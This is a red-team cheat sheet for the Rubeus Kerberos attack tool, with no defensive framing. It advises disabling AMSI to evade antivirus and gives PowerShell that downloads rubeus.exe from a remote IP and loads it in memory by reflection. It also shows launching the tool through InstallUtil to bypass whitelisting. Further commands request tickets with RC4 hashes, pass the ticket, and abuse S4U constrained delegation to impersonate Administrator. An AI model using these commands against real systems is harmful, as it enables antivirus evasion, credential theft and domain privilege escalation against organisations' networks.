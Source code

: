 # Rubeus

## Assembly Reflection

{% hint style="info" %}
Can be used to evade AV.

Disable AMSI, load the exe as Assembly and invoke the methods.
{% endhint %}

* Load the assembly using Reflection

```csharp
$ass = (new-object net.webclient).DownloadData('http://10.110.0.66/tools/rubeus.exe')
$assem = [System.Reflection.Assembly]::Load($ass)
```

```csharp
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /cmd="monitor" /args="/interval:5 /filteruser:DC$" .\StandRubeus.dll
```

* Invoke a function

```csharp
[Rubeus.Program]::Main("purge".Split())
```

![](../../../.gitbook/assets/image%20%2839%29.png)

* Request a TGS \(Constrained Delegation\)

```csharp
[Rubeus.Program]::Main("s4u /user:server01 /rc4:sdsafgsa08ac2d2sad5988cbsda /impersonateuser:Administrator /msdsspn:cifs/server02 /ptt".Split())
```

```text
 C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile=  /cmd="hash" /args="/password:polo" .\StandRubeus.dll
```

## Monitor for TGT

```text
rubeus.exe monitor /interval:5 /filteruser:<machine account$ or username>
```

## Inject Ticket

```csharp
.\Rubeus.exe asktgt /user:iissvc /domain:test.lab.local /rc4:FC525C9683E8FE067095BA2DDC971889
rubeus.exe ptt /ticket:Base64_ticket_here
```

## Constrained Delegation

### Create hash from password

```csharp
 .\Rubeus.exe hash /password:Passw0rd!
```

### Ask a TGT

```csharp
.\Rubeus.exe asktgt /user:iissvc /domain:test.lab.local /rc4:FC525C9683E8FE067095BA2DDC971889
```

### S4U

```text
 .\Rubeus.exe s4u /impersonateuser:Administrator /msdsspn:mssqlsvc/test.lab.local:1433 /ptt /ticket:doIE+jCCBPdsakljdkslad/lakdlsa
```

{% hint style="info" %}
altservice can also be used to the command if /msdsspn is **www.**

**/altservice:CIFS /ptt /ticket:xxxxxxxx**
{% endhint %}



